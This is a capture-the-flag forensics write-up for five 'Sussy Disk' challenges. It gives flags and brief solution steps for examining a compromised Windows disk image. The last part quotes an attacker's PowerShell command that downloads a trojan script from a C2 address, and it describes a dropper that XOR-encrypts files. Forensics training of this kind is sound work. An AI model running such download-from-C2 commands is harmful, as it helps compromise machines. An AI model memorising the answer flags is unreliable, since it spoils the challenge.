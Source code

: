 # Sussy Disk 1

| Key            | Value                                                                                                                                                                                                                                                                                                                                                                            |
|----------------|----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| Challenge Name | Sussy Disk 1                                                                                                                                                                                                                                                                                                                                                                     |
| Author         | warlocksmurf                                                                                                                                                                                                                                                                                                                                                                     |
| Category       | Forensics                                                                                                                                                                                                                                                                                                                                                                        |
| Description    | The forensics team recently recovered a disk image from a compromised machine. Your job as an intern is to help uncover what the attacker had done to the compromised machine and what artifacts you can dig up for the final report. The attacker searched up some suspicious stuff on the Internet after infiltrating the machine, I wonder what was the attacker looking for? |
| Challenge Type | Static                                                                                                                                                                                                                                                                                                                                                                           |
| Flag           | sunctf{g00gle_the_g0at}                                                                                                                                                                                                                                                                                                                                                          |
| Score          | ???                                                                                                                                                                                                                                                                                                                                                                              |

*File(s) in `attachments/` are distributed to the participants.*

## Solution

<details>
<summary>Click to expand</summary>

1) Extract and analyze the Google History file.

   ![sol1](docs/sol1.png)

</details>

# Sussy Disk 2

| Key            | Value                                                                                                       |
|----------------|-------------------------------------------------------------------------------------------------------------|
| Challenge Name | Sussy Disk 2                                                                                                |
| Author         | warlocksmurf                                                                                                |
| Category       | Forensics                                                                                                   |
| Description    | The victim mentioned that one of his file was missing from the machine, the attacker might have deleted it. |
| Challenge Type | Static                                                                                                      |
| Flag           | sunctf{remember_your_handles}                                                                               |
| Score          | ???                                                                                                         |

*File(s) in `attachments/` are distributed to the participants.*

## Solution

<details>
<summary>Click to expand</summary>

1) Analyze the Recycle Bin for the deleted flag.

   ![sol2](docs/sol2.png)

</details>

# Sussy Disk 3

| Key            | Value                                                                                                                                            |
|----------------|--------------------------------------------------------------------------------------------------------------------------------------------------|
| Challenge Name | Sussy Disk 3                                                                                                                                     |
| Author         | warlocksmurf                                                                                                                                     |
| Category       | Forensics                                                                                                                                        |
| Description    | The forensics team needs to know the answers of the backup questions created by the victim. Can you retrieve them? Format: sunctf{Ans1_Ans2_An3} |
| Challenge Type | Static                                                                                                                                           |
| Flag           | sunctf{Wowiee_SuperTsumu_Shen}                                                                                                                   |
| Score          | ???                                                                                                                                              |

*File(s) in `attachments/` are distributed to the participants.*

## Solution

<details>
<summary>Click to expand</summary>

1) Two ways: extract and analyze the SAM registry, or use tools
   from [Nirsoft](https://www.nirsoft.net/utils/security_questions_view.html) to automatically extract it.

   ![sol4](docs/sol4.png)

</details>

# Sussy Disk 4

| Key            | Value                                                                                                                                                |
|----------------|------------------------------------------------------------------------------------------------------------------------------------------------------|
| Challenge Name | Sussy Disk 4                                                                                                                                         |
| Author         | warlocksmurf                                                                                                                                         |
| Category       | Forensics                                                                                                                                            |
| Description    | The attacker attempted to access a confidential ZIP file stored in the machine somewhere. It is also known that the attacker is a fan of PowerShell. |
| Challenge Type | Static                                                                                                                                               |
| Flag           | sunctf{powershell_is_my_favourite_language}                                                                                                          |
| Score          | ???                                                                                                                                                  |

*File(s) in `attachments/` are distributed to the participants.*

## Solution

<details>
<summary>Click to expand</summary>

1) A password-protected ZIP file can be obtained from the Documents folder. Since the question mentioned the attacker is
   a fan of Powershell, the password can be obtained there.

   ![sol3](docs/sol3.png)

</details>

# Sussy Disk 5

| Key            | Value                                                                                           |
|----------------|-------------------------------------------------------------------------------------------------|
| Challenge Name | Sussy Disk 5                                                                                    |
| Author         | warlocksmurf                                                                                    |
| Category       | Forensics                                                                                       |
| Description    | Finally, it is time to identify the malware and understand its functions. The flag has 3 parts. |
| Challenge Type | Static                                                                                          |
| Flag           | sunctf{malware_analysis_is_not_that_hard}                                                       |
| Score          | ???                                                                                             |

*File(s) in `attachments/` are distributed to the participants.*

## Solution

<details>
<summary>Click to expand</summary>

1) The Powershell history will show that a malicious Powershell script is downloaded from a C2. Analyzing the powershell
   script, the first part of the flag can be identified.

   `Invoke-WebRequest "http://192.168.1.73:8000/trojan.ps1" -OutFile C:\Users\warlocksmurf\Downloads\trojan.ps1`

   ![sol5](docs/sol5.png)

2) The Powershell script also dropped a base64 encoded malware to the Pictures folder. Going to the folder, an encrypted
   image can be identified with the malware. Analyzing the malware, it encrypted the image with XOR 35 and placed the
   third part of the flag in Temp folder.

   ![sol6](docs/sol6.png)

   ![sol7](docs/sol7.png)

3) The third part of the flag is a simple base64 and ROT13 encoded text.

   ![sol8](docs/sol8.png)

</details>
